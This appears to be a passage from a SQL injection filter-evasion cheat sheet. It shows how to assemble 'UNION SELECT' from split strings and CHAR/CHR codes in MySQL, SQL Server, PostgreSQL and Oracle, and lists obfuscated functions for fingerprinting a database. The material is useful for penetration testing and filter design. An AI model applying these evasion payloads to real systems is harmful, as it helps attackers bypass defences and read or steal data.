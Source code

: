 Breaking attack strings into multiple parts and concatenating them at runtime.

#### MySQL Concatenation
```sql
-- CONCAT function
CONCAT('UN','ION',' ','SE','LECT')
CONCAT(CHAR(85,78,73,79,78),' ',CHAR(83,69,76,69,67,84))

-- Pipe operator (not standard MySQL)
'UN'||'ION'||' '||'SE'||'LECT'  -- PostgreSQL syntax
```

#### SQL Server Concatenation
```sql
-- Plus operator
'UN'+'ION'+' '+'SE'+'LECT'
CHAR(85)+CHAR(78)+CHAR(73)+CHAR(79)+CHAR(78)+' '+CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)

-- CONCAT function (SQL Server 2012+)
CONCAT('UN','ION',' ','SE','LECT')
```

#### PostgreSQL Concatenation
```sql
-- Pipe operator
'UN'||'ION'||' '||'SE'||'LECT'
CHR(85)||CHR(78)||CHR(73)||CHR(79)||CHR(78)||' '||CHR(83)||CHR(69)||CHR(76)||CHR(69)||CHR(67)||CHR(84)

-- CONCAT function
CONCAT('UN','ION',' ','SE','LECT')
```

#### Oracle Concatenation
```sql
-- Pipe operator
'UN'||'ION'||' '||'SE'||'LECT'
CHR(85)||CHR(78)||CHR(73)||CHR(79)||CHR(78)||' '||CHR(83)||CHR(69)||CHR(76)||CHR(69)||CHR(67)||CHR(84)

-- CONCAT function (limited to 2 parameters)
CONCAT(CONCAT('UN','ION'),CONCAT(' SE','LECT'))
```

### Obfuscated Code Techniques

Making malicious code difficult to detect through various obfuscation methods.

#### Function Name Obfuscation
```sql
-- Original functions
SELECT user(), database(), version()

-- Obfuscated equivalents
SELECT USER(), SCHEMA(), @@VERSION  -- MySQL
SELECT user_name(), db_name(), @@version  -- SQL Server
SELECT USER, SYS_CONTEXT('USERENV','DB_NAME'), banner FROM v$version WHERE rownum=1  -- Oracle
```
